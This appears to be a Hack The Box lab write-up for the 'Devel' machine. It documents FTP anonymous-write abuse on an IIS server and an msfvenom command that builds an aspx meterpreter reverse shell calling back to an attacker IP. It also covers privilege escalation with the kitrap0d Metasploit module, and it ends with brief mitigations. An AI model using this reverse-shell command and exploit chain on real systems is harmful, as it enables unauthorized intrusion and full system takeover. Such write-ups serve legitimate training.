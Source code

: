 #  Devel



## Contents

- [**Box**](#Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**User**](#User)
  - [**Root**](#Root)

- [**Mitigation**](#Mitigation)



## Box

![](img/box_info.png) 



## Profile

[![Akinflo](http://www.hackthebox.eu/badge/image/419539)](https://www.hackthebox.eu/home/users/profile/419539)



## Enumeration

First, i start with nmap scanning:

![](img/nmap.png) 



Microsoft IIS 7.5 ise deployed in this machine. Before trying to connect to the ftp server, i tried the http server. In the main page, there were just the default page of IIS server. So, i try to get more information about the anonymous connection on the ftp server using metasploit module: `auxiliary/scanner/ftp/anonymous`

![](img/ftp_anonymous.png) 



I have **READ** and **WRITE** right with the anonymous access, thus, i can put files from my local machine. After connection, i found an image called `welcome.png`:

![](img/ftp_image.png) 



It is the same image of the http main page:

![](img/source_code.png) 

So, when we upload files in the ftp server, we can access to this file from the website.



## Exploitation

As ther server deployed is IIS, `aspx` format file can be loaded, so, i decided to generate an aspx reverse shell file with meterpreter staged payload using msfvenom:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.14.31" LPORT=4444 -f aspx > rev_shell.aspx
```



I put it in the ftp server:

![](img/ftp_put_rev.png) 



Before loading the webpage, i start **metasploit** to create a port listener using the following module: `exploit/multi/handler`

I set the corresponding payload: `set payload windows/meterpreter/reverse_tcp`

And finally run it. 

I loaded the file in the website and it did exist:

![](img/http_rev.png)

And i got the reverse shell:

![](img/exploit.png)  



## Post-exploitation

In the backgroung of the session created, i used the suggester module to get privesc exploit:

![](img/suggester.png) 



I tried `exploit/windows/local/ms10_015_kitrap0d` module and set correct options with new `lport` (because default it use 4444 port which is used in my meterpreter session, so i set to 4445) and i run it, and i got new session with `nt authority\system`:

![](img/privesc.png) 

 

### User

After that, i just got on Users and see `babis` user which had the flag:

![](img/own_user.png) 



### Root

As i had the highest privilege, i could go to the admin user:

![](img/own_root.png) 



## Mitigation

To avoid these vulnerabilities, it is recommended to:

- Upgrade to the latest version of deployed server
- Disallow **READ/WRITE** rights for anonymous connection to the ftp server
- Disallow anonymous connection to the ftp server if possible